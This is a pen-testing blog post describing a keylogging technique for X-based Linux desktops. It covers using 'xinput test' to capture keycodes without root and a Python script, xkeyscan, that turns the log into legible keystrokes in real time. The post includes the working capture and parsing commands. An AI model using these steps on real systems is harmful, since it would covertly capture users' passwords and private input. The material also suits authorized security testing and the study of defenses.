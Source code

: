```yaml
---
layout: page
title:  "Using xkeyscan to Parse an X-Based Linux Keylogger"
teaser: "Leverage native X-based tools for real-time keylogging with xkeyscan, a Python script that translates X keycodes into legible keystrokes."
categories:
    - blog
tags:
    - linux
    - pen-testing
    - python
    - scripting
header: no
image:
    title: photo-keyboard.jpg
    thumb: photo-keyboard-thumb.jpg
author: porterhau5
---
```

### Background
A colleague of mine, Sanjiv Kawa, came across a nifty technique for capturing the keystrokes of users on an X-based system. I encourage you to check out <a href="https://www.popped.io/2016/06/natively-keylogging-nix-systems.html" target="_blank">his post here</a>, where Sanjiv walks through the process of using `xinput` to find input devices and then sets up the keylogger for capture. It's a particularly useful technique against those utilizing GNOME, KDE, or Xfce desktop environments, common on many *nix systems. It has the added bonus of not requiring root privileges to pull off.

For archival's sake, the process boils down to:

1. `xinput list` - list potential input devices
2. Find the XID of the keyboard to monitor
3. `xinput test <XID>` - display input from the device

XID is the "id" number associated with the desired keyboard input device. On my lab machine, this would id 12:
{% highlight html %}
⎡ Virtual core pointer                 	id=2	[master pointer  (3)]
⎜   ↳ Virtual core XTEST pointer     	id=4	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=8	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=9	[slave  pointer  (2)]
⎣ Virtual core keyboard                	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard      	id=5	[slave  keyboard (3)]
    ↳ Power Button                     	id=6	[slave  keyboard (3)]
    ↳ Video Bus                        	id=7	[slave  keyboard (3)]
    ↳ Razer Razer Naga 2014            	id=10	[slave  keyboard (3)]
    ↳ gpio-keys                        	id=11	[slave  keyboard (3)]
    ↳ porterhau5’s Keyboard            	id=12	[slave  keyboard (3)]
{% endhighlight %}

Now, the output produced by `xinput test <XID>` isn't quite the final output we're looking for. Instead of the characters typed by the user, the result is a series of **keycodes**. This is the output from typing "nano":
{% highlight html %}
$ script -c "xinput test 12" /dev/null
key press 57
key release 57
key press 38
key release 38
key press 57
key release 57
key press 32
key release 32
{% endhighlight %}

How can these keycodes be translated to something more legible? Well, first we need the system's device mapping of **keycodes-to-keysyms**, called a **keymap**. This is obtainable via `xmodmap -pke`:
{% highlight html %}
$ xmodmap -pke | head -n20
keycode   8 =
keycode   9 = Escape NoSymbol Escape
keycode  10 = 1 exclam 1 exclam exclamdown U2044
keycode  11 = 2 at 2 at trademark EuroSign
keycode  12 = 3 numbersign 3 numbersign sterling U2039
keycode  13 = 4 dollar 4 dollar cent U203A
keycode  14 = 5 percent 5 percent infinity UFB01
keycode  15 = 6 asciicircum 6 asciicircum section UFB02
keycode  16 = 7 ampersand 7 ampersand paragraph doubledagger
keycode  17 = 8 asterisk 8 asterisk enfilledcircbullet degree
keycode  18 = 9 parenleft 9 parenleft ordfeminine periodcentered
keycode  19 = 0 parenright 0 parenright masculine singlelowquotemark
keycode  20 = minus underscore minus underscore endash emdash
keycode  21 = equal plus equal plus notequal plusminus
keycode  22 = BackSpace BackSpace BackSpace BackSpace
keycode  23 = Tab ISO_Left_Tab Tab ISO_Left_Tab
keycode  24 = q Q q Q oe OE
keycode  25 = w W w W U2211 doublelowquotemark
keycode  26 = e E e E dead_acute acute
keycode  27 = r R r R registered U2030
{% endhighlight %}

Notice how the keymap has multiple keysym columns for each keycode - this is due to modifiers (Shift, Alt, etc.) No modifier will return the keysym in the first column. The Shift modifier will return the keysym in the second column, and so on. More details about xmodmap and modifiers can be found <a href="https://wiki.archlinux.org/index.php/Xmodmap" target="_blank">here</a>.

The next logical step is to leverage this keymap to automate the keycode-to-keysym conversion process.

### xkeyscan
What I ended up creating was a fairly simple Python script called "xkeyscan", and it can be found <a href="https://github.com/porterhau5/xkeyscan" target="_blank">here on GitHub</a>.

{% highlight html %}
$ python xkeyscan.py -h
Usage: python [-u] xkeyscan.py [LOGFILE]

A simple script for converting xinput output to legible keystokes.
Can process a log file directly when passed as an argument, or can
convert keystrokes in near real-time if tailing a log file.
If tailing a log file, use python's -u switch to avoid buffering.

Examples:
  python xkeyscan.py xkey.log (post-process log file)
  cat xkey.log | python xkeyscan.py (accept logs from stdin)
  tail -f -n +1 xkey.log | python -u xkeyscan.py (tail log file)

Type -h or --help for a full listing of options.
{% endhighlight %}

I've built in some logic to account for modifier keys, such as Shift or Alt, so the parser will correctly determine things like case-sensitivity and special characters.

The script can be used a handful of ways depending upon how you'd prefer to feed data into it. For the following examples, data is stored to a file called `xkey.log` using the following syntax:
{% highlight html %}
$ script -c "xinput test <XID>" /dev/null > xkey.log
{% endhighlight %}

xkeyscan can parse the file directly:
{% highlight html %}
$ python xkeyscan.py xkey.log
nano tmp
Test@ <Back> !
{% endhighlight %}

Or read from stdin:
{% highlight html %}
$ cat xkey.log | python xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Or parse in real-time:
{% highlight html %}
$ tail -f -n +1 xkey.log | python -u xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Note the usage of python's `-u` switch on the last command. This disables python's default buffer, allowing for data to be parsed as it's streamed in. The switch is necessary for real-time parsing when tailing a log file, otherwise the data doesn't get parsed until python's buffer is flushed (for example with a CTL-C or CTL-D.)

Here's the tool in action:

  - Capturing is done in the right terminal (using `tee` to verify output)
  - Keystrokes being captured were performed in the top-left terminal
  - xkeyscan is tailing xkey.log in the bottom-left terminal

<a href="{{ site.urlimg }}xkeyscan-ss.png" target="_blank"><img src="{{ site.urlimg }}xkeyscan-ss.png"></a>

In its current iteration, the xmodmap legend is statically set. If a system's keymap differs, the codes array near the top of xkeyscan.py will need to be adjusted accordingly. My plan for v2 is for the script to take `xmodmap -pke` as input and dynamically generate the appropriate codes. Could even take it a step further and create an all-in-one tool for finding the appropriate device, starting the keylogger, and printing out the parsed result. If you'd like to tackle these changes yourself, feel free to send a <a href="https://github.com/porterhau5/xkeyscan" target="_blank">pull request</a>!
